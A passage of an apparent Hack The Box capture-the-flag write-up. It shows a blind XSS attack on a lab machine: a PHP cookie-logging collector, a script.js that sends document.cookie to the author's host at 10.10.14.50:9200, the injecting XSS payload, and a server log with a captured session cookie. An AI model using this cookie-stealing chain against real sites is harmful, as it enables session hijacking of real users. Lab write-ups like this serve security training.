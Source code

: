With a listener, I can see that the code above triggers remote connection from the target.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.67.59 - - [25/Dec/2024 14:09:47] code 404, message File not found
10.129.67.59 - - [25/Dec/2024 14:09:47] "GET /this_is_a_test HTTP/1.1" 404 -
```

Since it's vulnerable to Blind XSS, I can use `index.php`, `script.js`, and `XSS payload` to exploit it to obtain cookie values.

```php
# index.php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```javascript
// script.js
new Image().src='http://10.10.14.50:9200/index.php?c='+document.cookie
```

```bash
# Command to open php server
sudo php -S 0.0.0.0:9200
```

```javascript
// XSS payload
"><script src=http://10.10.14.50:9200/script.js></script>
```

And I got the following log;

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo php -S 0.0.0.0:9200
[sudo] password for kali: 
[Wed Dec 25 14:17:43 2024] PHP 8.2.21 Development Server (http://0.0.0.0:9200) started
^A[Wed Dec 25 14:17:59 2024] 10.129.67.59:52118 Accepted
[Wed Dec 25 14:17:59 2024] 10.129.67.59:52118 [200]: GET /script.js
[Wed Dec 25 14:17:59 2024] 10.129.67.59:52118 Closing
[Wed Dec 25 14:17:59 2024] 10.129.67.59:52120 Accepted
[Wed Dec 25 14:17:59 2024] 10.129.67.59:52120 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99                                                                            
[Wed Dec 25 14:17:59 2024] 10.129.67.59:52120 Closing
[Wed Dec 25 14:18:03 2024] 10.129.67.59:52138 Accepted
[Wed Dec 25 14:18:03 2024] 10.129.67.59:52138 [200]: GET /script.js
[Wed Dec 25 14:18:03 2024] 10.129.67.59:52138 Closing
[Wed Dec 25 14:18:04 2024] 10.129.67.59:52142 Accepted
[Wed Dec 25 14:18:04 2024] 10.129.67.59:52142 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99                                                                            
[Wed Dec 25 14:18:04 2024] 10.129.67.59:52142 Closing
```
